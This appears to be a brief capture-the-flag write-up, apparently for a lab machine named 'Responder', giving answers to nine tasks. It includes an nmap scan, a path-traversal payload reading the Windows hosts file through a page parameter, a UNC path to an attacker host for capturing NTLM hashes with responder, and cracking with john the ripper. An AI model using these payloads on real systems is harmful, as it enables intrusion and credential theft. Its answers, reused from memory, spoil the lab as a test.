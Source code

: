 # Responder
## task 1
```
┌──(root㉿cbfc9d3c3a36)-[/]
└─# nmap -p-10000 -sV -T4 <your target ip>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-06 03:03 UTC
Nmap scan report for <your target ip>
Host is up (0.19s latency).
Not shown: 9998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.59 seconds
```
2
## task 2
```
┌──(root㉿cbfc9d3c3a36)-[/]
└─# curl -L <your target ip>
<meta http-equiv="refresh" content="0;url=http://unika.htb/">
```
unika.htb
## task 3
```
┌──(root㉿cbfc9d3c3a36)-[/]
└─# echo -e "10.129.161.67\tunika.htb" >> /etc/hosts
```
php
## task 4
```
http://unika.htb/index.php?page=german.html
```
page
## task 5
../../../../../../../../windows/system32/drivers/etc/hosts
## task 6
//10.10.14.6/somefile
## task 7
New Technology LAN Manager
## task 8
```
responder -I
```
## task 9
john the ripper
